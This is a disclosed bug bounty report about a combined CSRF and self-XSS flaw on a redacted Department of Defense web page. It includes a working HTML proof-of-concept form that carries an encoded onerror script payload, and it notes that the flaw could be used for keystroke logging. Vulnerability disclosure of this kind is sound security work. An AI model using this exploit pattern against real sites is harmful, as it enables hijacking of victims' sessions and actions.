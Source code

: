 # Self XSS combine CSRF at https://████████/index.php

## Report Details
- **Report ID**: 485684
- **URL**: https://hackerone.com/reports/485684
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-01-25T00:33:58.163Z
- **Disclosed**: 2020-05-27T14:09:42.717Z

## Reporter
- **Username**: manshum12
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Team,

I found that https://█████████/index.php has vulnerability by XSS in arg2 parameter. Anyway there is no csrf token tied with the post request. As a result this csrf flaw can make the self-xss as a global reflected xss.

CSRF to XSS PoC 

<html>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://██████████/index.php" method="POST">
<input type="hidden" name="█████████" value="1" />
<input type="hidden" name="task" value="azrul&#95;ajax" />
<input type="hidden" name="option" value="community" />
<input type="hidden" name="func" value="register&#44;ajaxCheckEmail" />
<input type="hidden" name="no&#95;html" value="1" />
<input type="hidden" name="arg2" value="&#91;&quot;&#95;d&#95;&quot;&#44;&quot;raygame2222&#37;40af&#46;miljvbi9&lt;img&#32;src&#61;a&#32;onerror&#61;alert&#40;1&#41;&gt;lk2ko&quot;&#93;" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>

You just need to copy and paste the POC into notepad++ then open it with using firefox or google chrome . After i believe you can see xss window pop up

## Impact

i can using this CSRF file send it to people then wide variety of actions, such as performing arbitrary actions on the victim's behalf, and logging their keystrokes.

## Attachments
No attachments
